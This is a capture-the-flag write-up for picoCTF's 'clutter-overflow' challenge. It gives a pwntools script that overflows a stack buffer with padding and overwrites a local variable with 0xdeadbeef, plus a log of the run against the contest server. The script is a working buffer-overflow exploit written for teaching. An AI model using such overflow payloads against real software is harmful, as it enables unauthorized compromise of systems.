 Nothing super interesting here; fill up the char buffer, write another 8 bytes of padding, and then write 0xdeadbeef over local_10. It'll compare local_10 and then print the flag. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("chall")

context.binary = exe

def conn():
    if args.REMOTE:
        return remote("mars.picoctf.net", 31890)
    elif args.DEBUG:
        return gdb.debug([exe.path])
    else:
        return process([exe.path])


def main():
    r = conn()

    payload = b"A"* 0x100
    payload += b"BBBBBBBB"
    payload += p32(0xdeadbeef)

    r.sendline(payload)

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

```text
❯ python solve.py REMOTE
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/clutter-overflow/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to mars.picoctf.net on port 31890: Done
[*] Switching to interactive mode
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
```